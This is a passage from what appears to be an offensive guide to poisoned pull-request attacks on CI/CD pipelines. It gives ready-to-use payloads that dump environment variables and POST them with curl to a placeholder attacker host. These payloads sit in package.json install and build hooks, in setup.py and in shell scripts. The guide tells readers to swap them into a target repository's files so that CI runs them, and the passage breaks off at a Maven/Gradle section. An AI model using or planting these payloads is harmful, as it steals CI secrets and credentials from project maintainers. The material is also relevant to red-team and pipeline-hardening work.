 
NOTE: the payloads in the instructions above must be `json escaped`.

Example:
```json
{
  "name": "my_package",
  "description": "",
  "version": "1.0.0",
  "scripts": {
    "preinstall": "set | curl -X POST --data-binary @- {YourHostName}",
    "install": "set | curl -X POST --data-binary @- {YourHostName}",
    "build": "set | curl -X POST --data-binary @- {YourHostName}",
    "test": "set | curl -X POST --data-binary @- {YourHostName}"
  },
  "repository": {
    "type": "git",
    "url": "https://github.com/foobar/my_package.git"
  },
  "keywords": [],
  "author": "C.Norris"
}
```


### Python - setup.py

> `setup.py` is used by python's package managers during the build process.
It is often executed by default.\
> Replacing the setup.py files with the following payload may trigger their execution by the CI.

```python
import os

os.system('set | curl -X POST --data-binary @- {YourHostName}')
```


### Bash / sh - *.sh

> Shell scripts in the repository are often executed in custom CI/CD pipelines.\
> Replacing all the `.sh` files in the repo and submitting a pull request may   trigger their execution by the CI.

```shell
set | curl -X POST --data-binary @- {YourHostName}
```



### Maven / Gradle

> These package managers come with "wrappers" that help with running custom commands for building / testing the project.\
These wrappers are essentially executable shell/cmd scripts.
Replace them with your payloads to have them executed:
